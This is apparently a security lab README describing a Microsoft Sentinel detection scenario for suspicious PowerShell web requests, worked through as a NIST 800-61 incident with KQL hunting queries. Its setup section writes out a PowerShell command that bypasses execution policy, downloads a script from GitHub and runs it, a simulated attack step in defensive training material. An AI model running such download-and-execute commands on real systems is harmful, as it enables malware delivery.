 <p align="center">
  <a href="https://github.com/Samuel-Cavada" target="_blank">
    <img src="https://img.shields.io/badge/Back_to_Main_Page-000000?style=for-the-badge&logo=github&logoColor=white" alt="Back to Main Page"/>
  </a>
</p>

# Scenario 2: PowerShell Suspicious Web Request

<p align="center">
  <img src="https://img.shields.io/badge/Platform-Azure%20Sentinel-0078D4?style=for-the-badge&logo=microsoftazure&logoColor=white" alt="Cloud Platform" />
  <img src="https://img.shields.io/badge/OS-Windows%2010-0078D6?style=for-the-badge&logo=windows&logoColor=white" alt="OS" />
  <img src="https://img.shields.io/badge/Tool-Microsoft%20Sentinel-00B388?style=for-the-badge&logo=microsoftazure&logoColor=white" alt="Tool" />
  <img src="https://img.shields.io/badge/Tool-Microsoft%20Defender%20for%20Endpoint-2C5EA8?style=for-the-badge&logo=microsoftdefender&logoColor=white" alt="Tool" />
  <img src="https://img.shields.io/badge/Focus-Post%20Exploitation%20Detection-orange?style=for-the-badge" alt="Focus Area" />
</p>

---

## 🧾 Explanation

Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence. This is often achieved using legitimate system utilities like PowerShell to blend in with normal activity. By leveraging commands such as Invoke-WebRequest, they can download files or scripts from an external server and immediately execute them, bypassing traditional defenses or detection mechanisms. This tactic is a hallmark of post-exploitation activity, enabling them to deploy malware, exfiltrate data, or establish communication channels with a command-and-control (C2) server. Detecting this behavior is critical to identifying and disrupting an ongoing attack.

When processes are executed/run on the local VM, logs will be forwarded to Microsoft Defender for Endpoint under the DeviceProcessEvents table. These logs are then forwarded to the Log Analytics Workspace being used by Microsoft Sentinel, our SIEM. Within Sentinel, we will define an alert to trigger when PowerShell is used to download a remote file from the internet.

---

## 📌 Project Objective

> Detect and investigate the use of PowerShell's `Invoke-WebRequest` for downloading files from the internet—an activity often used by attackers during post-exploitation phases. This scenario involves creating an analytics rule in Sentinel and working the resulting incident to closure using the NIST 800-61 framework.

---

## 🧰 Tools & Technologies

- **Platform:** Azure
- **OS:** Windows 10
- **Tools:** Microsoft Sentinel, Microsoft Defender for Endpoint, PowerShell
- **Languages/Scripts:** PowerShell, KQL

---

## 🧠 Skills Gained / Focus Areas

- Detected use of `Invoke-WebRequest` via process telemetry
- Created a Sentinel alert rule to detect suspicious PowerShell usage
- Investigated execution of downloaded scripts
- Applied entity mapping and incident triage methodology

---

## 🧪 Environment Setup

> Onboarded Windows 10 VM to Microsoft Defender for Endpoint. Ran the following command to simulate malicious activity:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1' -OutFile 'C:\programdata\eicar.ps1';
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```

![Environment Setup](assets/images/setup.jpg)

---

## 🛠️ Walkthrough

1. **Step 1: Create Alert Rule**
2. **Step 2: Trigger Alert**
3. **Step 3: Work Incident**
4. **Step 4: Cleanup**

---

### ✅ Step 1: Create Alert Rule

KQL used to detect suspicious PowerShell downloads:

```kql
let TargetHostname = "cavada-cyber-pc"; 
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
```

**Analytics Rule Settings:**

- Run every 4 hours
- Lookup data for last 24 hours
- Map entities:
  - **Account:** AccountName
  - **Host:** DeviceName
  - **Process:** ProcessCommandLine
- Automatically create Incident
- Stop running query after alert is generated
- Group alerts into one Incident per 24 hours

---

### ✅ Step 2: Trigger Alert

- Simulated execution of `Invoke-WebRequest` via PowerShell
- Alert triggered and incident created in Sentinel
- Incident visible in: **Threat Management → Incidents**

---

### ✅ Step 3: Work Incident

Followed **NIST 800-61** Lifecycle:

**Preparation:**
- Roles, logging tools, and VM setup confirmed

**Detection & Analysis:**
- Incident observed: "Josh - PowerShell Suspicious Web Request"
- Multiple scripts downloaded via PowerShell:
  - `https://raw.githubusercontent.com/.../eicar.ps1`
  - `https://raw.githubusercontent.com/.../portscan.ps1`

Checked if any downloaded scripts were executed:

```kql
let TargetHostname = "cavada-cyber-pc";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```

**Findings:**

- `eicar.ps1` and `portscan.ps1` executed by `labuser`
- `eicar.ps1` simulated malware signature
- `portscan.ps1` launched internal port scan

**Containment, Eradication, and Recovery:**

- VM isolated using MDE
- Anti-malware scan performed
- Files removed and system returned to normal state

**Post-Incident:**

- Contacted user: they reported trying to install free software, followed by black screen
- Scripts confirmed to have executed via Defender logs
- Malware team reviewed scripts:
  - `portscan.ps1`: scanned internal IPs for open ports
  - `eicar.ps1`: created AV test file
  - `exfiltratedata.ps1`: simulated data exfiltration to Azure Blob
  - `pwncrypt.ps1`: simulated ransomware + ransom note creation
- User was retrained on cyber hygiene; KnowBe4 training package upgraded

**Closure:**

- Incident marked **True Positive**
- KQL queries and notes documented in Sentinel
- Case closed

---

## 📝 Timeline Summary and Findings

- Alert triggered by `Invoke-WebRequest` detection
- Multiple suspicious scripts were downloaded and run
- Executed scripts confirmed through process telemetry
- Incident triaged and remediated successfully

---

## 📎 References

- [MITRE ATT&CK: T1059.001 – PowerShell](https://attack.mitre.org/techniques/T1059/001/)
- [Advanced Hunting – DeviceProcessEvents]()
